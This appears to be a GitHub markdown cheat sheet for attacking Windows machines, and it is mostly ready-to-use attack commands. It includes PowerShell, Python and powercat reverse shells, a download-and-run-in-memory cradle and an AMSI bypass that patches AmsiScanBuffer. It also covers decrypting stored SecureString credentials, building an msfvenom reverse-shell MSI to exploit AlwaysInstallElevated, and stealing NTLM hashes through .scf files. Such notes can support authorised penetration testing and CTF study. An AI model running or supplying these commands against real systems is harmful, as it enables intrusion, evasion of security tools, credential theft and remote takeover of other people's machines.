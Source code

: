 ## exploiting UNC paths to get NTLM hash
To get NTLM hashes are to somehow get an authenticated connection back to us, there by giving us hashes
1. One of of doing it is to somehow upload .scf files to the machine. SCF files are command files which containt very limited amount of windows explorer commands, which does not need any user interaction, and gets executed the moment a user opens the directory which contains the .scf file. So hence we can specify a UNC path to connect to and set up an smb server using responder, this will give us the NTLM hashes, because given a UNC path, windows thinks that it needs to authenticate to the remote machine, thereby giving away its hash. This attack was also prevelant in .lnk(shortcuts) files but was patched. More on this here https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/

## getting a reverse shell:-
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'` (via python) 
or<br />
`powercat -c "IP" -p PORT -e cmd.exe` (via powercat)<br />
or<br />
simply use netcat
## first move to a powershell:-
powershell.exe

## then the obvious:-
`whoami`<br />
`echo %username%` (if whoami doesnt work) ONLY FOR CMD NOT FOR POWERSHELL<br />
`$ENV:USERNAME` (if whoami doesnt work) ONLY FOR POWERSHELL NOT FOR CMD<br />
`whoami /priv`<br />
`net user`<br />
`net localgroup Administrators`<br />
`Get-ExecutionPolicy`<br />
`powershell.exe -ep bypass` (to set execution policy to bypass)<br />
`Get-Host | Select-Object Version` (to check the whole version of powershell)<br />
`$PSVersionTable.PSVersion.Major` (to check the version of powershell)


## About the system and proccess running:-
`systeminfo`<br />
`tasklist`<br />
`([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)` (to check if you r admin or not)<br />
`(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1")` (to check for smb version 1)<br />

## Running scripts from memory
`iex (New-Object Net.WebClient).DownloadString('http://ip/script.ps1'); "function name with args"`

## Bypassing AMSI
```powershell
$code = @"
using System;
using System.Runtime.InteropServices;

public class Native
{

[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);

[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $code
$amsiDll = [Native]::LoadLibrary("am" + "si.dll")
$asbAddress = [Native]::GetProcAddress($amsiDll, "Am" + "si" + "Sc" + "an" + "Buf" + "fer")
$ret = [Byte[]] ( 0xC3 )
$o = 0
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, 0x40, [ref] $o)

[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddress, $ret.Length)
[Native]::VirtualProtect($asbAddress, [uint32]$ret.Length, $o, [ref] $null)
```

## Locate files in the whole drive
`dir filename.extension /s` (do it from C:\ folder)(supports regex)
`dir /a /q` (linux like ls -la, gives time modified as well as file owner)

## Show all folders and files including hidden ones
* `dir /a` - For cmd.exe
* `dir -force` - For powershell.exe
<br />

## To Download somthing from the internet or intranet:-
`powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://ip address/domain:port/file","download location's full path\programname.extension")`<br />
`powershell Invoke-Webrequest -OutFile 'Dstn path.Extension' -Uri http://ip address/domain:port/file`

**Note**: 
    curl too works in powershell, except for windows-IoT and similar minimal installations <br />
#### usage example:
    curl http://<IP>:<PORT>/file_name -Output Output_filename     

## Decrypting Powershell SecureString (ONLY WORKS WHEN YOU ARE THE OWNER OF THE XML FILE)
### If you have a xml object file

`$credential = Import-CliXml -Path  PathToXml\MyCredential.xml` <br />
`$credential.GetNetworkCredential().Password` <br />

### If you have a single string

`$secretStuff = Get-Content  -Path secretstuff.txt | ConvertTo-SecureString` <br />
`[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR((($secretStuff))))`

## Checking and exploiting AlwaysInstallElevated Permission

To check if this permission is enabled or not

1. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
2. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If both of these come 0x1 then that means the permissions is allowed.
If it is allowed then we can install any .msi file with system privelages so now we just need to make a payload from msfvenom like this "msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.14.10 LPORT=2345 --encoder x64/xor --iterations 9 --format msi --out test.msi" and put it in the target box and simply execute it by not trigger the uac and any gui with this "msiexec /quiet /qn /i test.msi" and u get a shell on your listener

## Checking any remaing sticky keys

Sometimes users do put stuff in sticky keys which is stored in C:\Users\USER\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState

## We can get ntlm hash of users via write access to a directory

If we have write access to any folder, using ftp, smb, etc. then we can upload a .scf file and follow https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/ this link in order to steal hash of any user who opens the directory containg the scf file
